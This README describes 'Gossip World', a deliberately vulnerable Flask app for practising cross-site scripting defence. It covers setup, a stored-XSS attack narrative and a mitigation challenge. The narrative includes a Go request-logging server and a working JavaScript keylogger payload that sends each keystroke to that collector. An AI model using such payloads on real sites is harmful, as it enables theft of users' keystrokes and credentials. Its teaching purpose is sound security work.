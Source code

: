 # Gossip World

<p align="center">
    <img src="images/banner.png"/>
</p>

Gossip World is a simple Flask app that contains an example of multiple Cross-Site Scripting vulnerabilities and its main goal is to describe how a malicious user could exploit them on this purposefully vulnerable app.

## Indexc

- [Definition](#what-is-cross-site-scripting)
- [Setup](#setup)
- [Attack narrative](#attack-narrative)
- [Objectives](#secure-this-app)
- [Solutions](#pr-solutions)
- [Contributing](#contributing)

## What is Cross-Site Scripting?

XSS flaws occur whenever an application includes untrusted data in a new web page without proper validation or escaping, or updates an existing web page with user-supplied data using a browser API that can create HTML or JavaScript. XSS allows attackers to execute scripts in the victim’s browser which can hijack user sessions, deface web sites, or redirect the user to malicious sites.

The main goal of this app is to discuss how **Cross-Site Scripting** vulnerabilities can be exploited and to encourage developers to send secDevLabs Pull Requests on how they would mitigate these flaws.

## Setup

To start this intentionally **insecure application**, you will need [Docker][Docker Install] and [Docker Compose][Docker Compose Install]. After forking [secDevLabs](https://github.com/globocom/secDevLabs), you must type the following commands to start:

```sh
cd secDevLabs/owasp-top10-2017-apps/a7/gossip-world
```

```sh
make install
```

Then simply visit [localhost:10007][App] ! 😆

## Get to know the app 💄

To properly understand how this application works, you can follow these simple steps:

- Create a new user
- Try leaving a comment on a gossip
- Try creating your gossip!

## Attack narrative

Now that you know the purpose of this app, what could go wrong? The following section describes how an attacker could identify and eventually find sensitive information about the app or its users. We encourage you to follow these steps and try to reproduce them on your own to better understand the attack vector! 😜

### Note: This attack narrative works best in Mozilla Firefox.

### 👀

#### Non-sanitization of user input allows for cross-site scripting

After inspecting the application, it is possible to identify that some entries are not sanitized and can be executed on a web browser. It occurs on *search*, *comment* and *post* fields. The following images show this behavior when the following text  is used as an input on these fields:

```
<script>alert(1)</script>
```

Searching for a post:
   <img src="images/attack-1.png" align="center"/>
   <img src="images/attack-2.png" align="center"/>

Adding a new comment to a post:
   <img src="images/attack-3.png" align="center"/>
   <img src="images/attack-4.png" align="center"/>

Adding a new post:
   <img src="images/attack-5.png" align="center"/>
   <img src="images/attack-6.png" align="center"/>


The missing input validation allows a malicious user to insert some scripts that will persist in the server and be executed on the victims' browser every time they access the routes that contain these scripts.

### 🔥

An attacker may abuse these flaws by generating a malicious JS code and sending it to other users. To demonstrate this, the following example will get all keyboard input from a user by persisting a malicious code in the server.

First, the following Golang API can be built (main.go) that logs all received requests:

```go
package main

import (
   "fmt"
   "github.com/labstack/echo"
)

func main() {
   e := echo.New()
   e.GET("/:k", handler)
   e.Logger.Fatal(e.Start(":1232"))
}

func handler(c echo.Context) error {
   fmt.Println(c.Request().RemoteAddr, c.Param("k"))
   return nil
}
```
   
To run this code simply type the following command in your terminal (you should check this [guide](https://golang.org/doc/install) if you need any help with Golang): 

```sh
go run main.go
```

Then, the attacker can insert a new post through the **/newgossip** route by using the following code in the text field:

```html
<script>
var k="";
document.onkeypress=function(e) {
   e = e || window.event;
   k+=e.key;
   var i=new Image;
   i.src="http://localhost:1232/"+k;
}
</script>
```

This code implements a keylogger to capture all keyboard input from users and send it to the API created beforehand.

   <img src="images/attack-7.png" align="center"/>

When a victim accesses the post, the browser will interpret the text between the script tag as code and will execute it secretly. The following image shows the victim typing letters into the page that has been "infected" by the malicious JS:

<img src="images/attack-8.png" align="center"/>

The attacker now gets all the input on the server log, as shown below: 

<img src="images/attack-9.png" align="center"/>

## Secure this app

How would you mitigate this vulnerability? After your changes, an attacker should not be able to:

* Execute scripts through input fields

## PR solutions

[Spoiler alert 🚨] To understand how this vulnerability can be mitigated, check out [these pull requests](https://github.com/globocom/secDevLabs/pulls?q=is%3Apr+label%3A%22mitigation+solution+%F0%9F%94%92%22+label%3A%22Gossip+World%22)!


[Docker Install]:  https://docs.docker.com/install/
[Docker Compose Install]: https://docs.docker.com/compose/install/
[App]: http://localhost:10007
